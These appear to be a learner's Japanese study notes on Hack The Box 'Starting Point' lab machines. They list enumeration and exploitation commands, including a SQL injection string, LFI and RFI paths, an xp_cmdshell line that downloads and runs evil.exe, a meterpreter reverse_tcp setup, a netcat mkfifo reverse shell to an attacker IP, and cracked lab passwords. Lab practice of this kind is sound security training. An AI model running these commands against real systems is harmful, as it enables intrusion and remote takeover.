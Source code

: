 ##sudo nmap -sV -p- -sC -sS 10.129.55.125 -min-rate 5000

# Meow
- ICMP( Internet Control Message Protocol)echoとは、データを送って相手にも同じデータを遅らせることで、正常に通信できているか確認する（PING）
- telnet 10.10.10.10 でrootユーザーの場合、パスワード無しでログイン
# Fawn
　- FTP（File Transfer Protocol）リスニングポートは２１
　- SFTP (Secure File Transfer Protocol) 安全なFTP
　- vsftpd　LinuxなどのUNIX系OSでよく利用されるFTPサーバ
　- ftp -h ヘルプコマンド
　- anonymous FTPサーバーでアカウントなしでログイン
　- 230　FTPログイン成功（Login successful）
　- dir ls ファイル一覧コマンド
　- get 元ファイルパス　送り先パス　でファイルをダウンロード
# Dancing
　・SMB（Server Message Block）とは、Microsoft Windowsのネットワーク上においてファイルやプリンターの共有などを行なうための、Microsoft独自の通信プロトコル
　・445port SMB（microsoft-ds）
　・smbclient -hでヘルプ -L 10.10.10.10でホストのリストを一覧
　・smbclient //hostip/ディレクトリ　mbclient //10.129.94.140/Workshares  
Reddmer
　・Redis　 NoSQLデータベースの一つ（オープンソフトウェあ）
　・redis-cli -h 10.10.10.10で接続、infoでサーバ情報取得
　・keys * でキー一覧を表示、type キーの名前でキーのデータ型が分かる
　・select　データベース名

Appointment
　・SQL「Structured Query Language」、injection
　・HTTPS（443port）、HTTP（80port）
　・404not found　はエラーメッセージ
　・[1’ or ‘1’=’1’;-- ]最後にスペース、インジェクションコマンド
　・[#]はSQLのコメントアウト
Sequel
・mysql -h 10.10.10.10 -u root で接続できる
・select * FROM table名、use データベース名、show databases;、show tables;
Crocodile
・namp -sCオプションはnmapのオリジナルのスクリプトを使用して脆弱性診断を行う
　・vsftpdは、Linuxを含むUnixライクなシステム用のFTPサーバー
　・ftp 10.10.10.10 でユーザー名はanonymous
　・gobuster dir -u http://10.129.181.244/ -w /usr/share/dirbuster/wordlists/directory-list-
lowercase-2.3-medium.txt -x php
Responder
　・../../. ./../../../../../windows/system32/drivers/etc/hosts　LFI
　・//10.10.14.6/somefile　RFI
　・responder -Iでインタフェース指定、-iでIPアドレス指定
　　リスニングモードにし、ウェブページを更新すると、勝手にハッシュ値を探す
　・5985port evil-winrm -u Administrator -p 'badminton' -i 10.129.140.152
　・WinRMとは、Windows ServerのWindows PowerShellを遠隔から操作する機能
　・hash解析john --wordlist=/home/kali/Downloads/rockyou.txt /home/kali/hash
　・aws s3 cp --endpoint-url http://s3.thetoppers.htb   s3://thetoppers.htb/index.php /home/kali/Desktop/
　・aws s3 --endpoint=http://s3.thetoppers.htb cp ./Desktop/shell.php s3://thetoppers.htb
　・aws s3 ls   --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb
　　先に/etc/hostsにs3.thetoppersを登録しておかないとAWSにたどり着けない
　・PS C:\Users\denet> aws s3 cp s3://piyopiyo-s3-bucket/index.html .\Desktop\
download: s3://piyopiyo-s3-bucket/index.html to Desktop\index.html
　・MD5　https://hashtoolkit.com/decrypt-hash/?hash=2cb42f8734ea607eefed3b70af13bbd3

Archetype
　・smbclient -L //10.129.95.187　でsmb内をリストで表示　―Nでパスワード無し
　・smbclient //10.129.95.187/backups -Nでsmb: \> lsとなるからget filenameでダウンロード
　・mssqlclient.pyはMicrosoft SQL Server への認証された接続を確立するためインパケット
　・locateでmssqlclientを探し実行。
/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
　・kaliで目的のファイルがある階層に行き、python -m http.server 80で起動し
　　enable_xp_cmdshell、xp_cmdshell "powershell -c cd ../;  wget 10.10.15.189/evil.exe; ./evil.exe"
　　を実行するとファイルがダウンロードされる。
　　次に、metasploit1を起動し、multi/handler,set lhost set payload windows/meterpreter/reverse_tcpで
    Xp_cmdshell で./evil.exeを入力し実行すると接続が確立。
　　Upload winPEASx64で送り、shellで実行すると情報が出てくる。パスワードがあるので、evil-winrmを使って、evil-winrm -u Administrator -p 'MEGACORP_4dm1n!!' -i 10.129.95.187をすると実行。あとはファイルを探すだけ。たいていdesktopにある
Oopsie
　・proxyはWebトラフィックを傍受できる
　・HTMLソースを見て、別のページがないか探す
　・管理者アカウントのIDなどが分かったらCookieにIDを登録すると偽れる
　・gobusterでサブディレクトリを検索
　・大抵ウェブログイン情報は、www/html/の下位層の最初gobusterで見つからなかったところにある。今回の場合はdb.php
　・find / -group bugtracker でファイルを探す
　・SUID（Set User ID）とは、実行権のあるファイルに設定される特殊なアクセス権
Vaccine
　・zip2john -w パスワード付きＺｉｐをクラック、johnでハッシュ解析
　・sqlmap -r txt --os-shell　でtxtファイルには、burpsuiteのgetリクエストの内容をそのままにしたもの、手動でコピペするとerrorになるからファイルとして出力する
　・sqlmapを実行するとshellが返ってくる。Nc ―lvnp 1337で
Phpリバースシェルrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.186 1337 >/tmp/f　を実行すると確立する。
・python3 -c 'import pty;pty.spawn("/bin/bash");' を実行するとshellの形式になる
・index.phpファイルを探すかgrep -i -R “pass”でパスワードを探しsshにログイン
　Sudo -lを実行すると vi….がroot権限で実行されるので、
　Gtfobinsと検索し、shell,viに関連するコマンドを使用する。この時[i]を押して挿入モードにせず直接入力する。
Unified
　・「GTFOBins」は、ローカルのセキュリティ制限を回避するため利用できるバイナリのリストです。権限昇格
　・cronで自動起動設定、詳しくはネットで
　・/dev/nullは何もない場所で、ここにリンクすると出力や、ファイルをなかったことに
できる。-group bugtracker /dev/nullとすると、このコマンドの出力を捨てられる。

・/tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh-i 2>&1/nc 10.10.15.33 1337>/tmp/f　について
https://devlights.hatenablog.com/entry/2021/02/14/210033


Gobuster -xは拡張子を検索するオプションだけど、でてこないので、というより、今の環境だとVPN接続が切れて、エラーになるので、先にgobuster dir -u -wでファイル検索して、結果のファイル名をコピーして、リストにしてそのリストを設定した後、拡張子を設定する。

└─$ sudo gobuster vhost -u http://thetoppers.htb/ -w SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:             http://thetoppers.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
2023/08/12 09:50:52 Starting gobuster in VHOST enumeration mode
Found: s3.thetoppers.htb Status: 404 [Size: 21]

vhostでサブディレクりを探せる。dnsだと探せなかった。fuzzはhttp://http://thettoprs.htbとなってよくわからない
--append-domainとしないと、そのままwordリストのみのドメインで探すことになる。
-uはurlで

awscliがインストールできなかったがsudo apt --fix-broken install を実行したらインストールできた。
nikto の/var/lib/nikto/nikto.conf.defaultのFAILURESを20から２００に変更した。


